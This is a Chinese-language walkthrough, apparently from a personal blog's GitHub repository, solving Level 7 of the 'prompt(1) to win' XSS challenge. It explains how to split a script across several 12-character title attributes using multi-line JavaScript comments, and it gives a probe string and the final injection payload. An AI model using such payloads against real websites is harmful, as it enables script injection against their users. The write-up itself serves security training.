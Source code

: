 ## [[prompt(1) to win](http://prompt.ml)] [[Level 7 - Length](http://prompt.ml/7)] [[解题报告](http://exp-blog.com/2019/03/23/pid-3672/)]

------

## 题目

```javascript
function escape(input) {
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');
    return segments.map(function(title) {
        // title can only contain 12 characters
        return '<p class="comment" title="' + title.slice(0, 12) + '"></p>';
    }).join('\n');
}
```

## 解题报告

题目代码很好理解：

- 使用 `#` 切割 input 的字符串，切割后的子串会被顺次放到若干个 `<p>` 标签的 `title` 属性中
- 子串长度若超过 12 则会被截断
- input 内容没有做任何过滤

可以使用这个探针看到前面的分析效果：

`11#2222#333333#44444444#5555555555#6666666666666666666666666#"><img src=0`

![](http://exp-blog.com/wp-content/uploads/2019/03/7b44355f75aab959370bc80041a01139.png)


------------

需知道 javascript 代码有个特点：

- 在 HTML 语境中，`<script>` 和 `</script>` 标签之间的内容默认视为 js 代码
- js 代码换行后依然会自动拼接并生效
- js 代码内容之间的注释会被自动忽略

因此对于这种限制长度的注入点，可以搭配 `<script>` 和多行注释 `/* */` 进行绕过。

结合 `title` 属性值长度为 12 的限制进行考虑，可以尝试在本地构造这样的 HTML 代码，成功触发 prompt 事件：

```html
<p class="comment" title=""><script>/*"></p>
<p class="comment" title="*/prompt/*"></p>
<p class="comment" title="*/(1)/*"></p>
<p class="comment" title="*/</script> "></p>
```

> 注意： `<script>` 和 `</script>` 标签用于声明 js 代码的范围，唯独这两个标签不能从中间断开到两行，否则多行注释 `/* */` 就不会起作用了。另外我在测试 payload 的时候，也尝试过 `<!-- -->` HTML 注释，但是尖括号会造成标签错位导致注入失败，有兴趣的同学可以研究下。

![](http://exp-blog.com/wp-content/uploads/2019/03/42277d652f8ad5b803f8bdcc5252460e.png)

从前面构造的 HTML 代码中提取每一行的 `title` 属性值，使用 `#` 拼接，就得到最终 payload 如下，完成挑战：

`"><script>/*#*/prompt/*#*/(1)/*#*/</script>`

![](http://exp-blog.com/wp-content/uploads/2019/03/739ae71f620beb54a48306fc13552f93.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
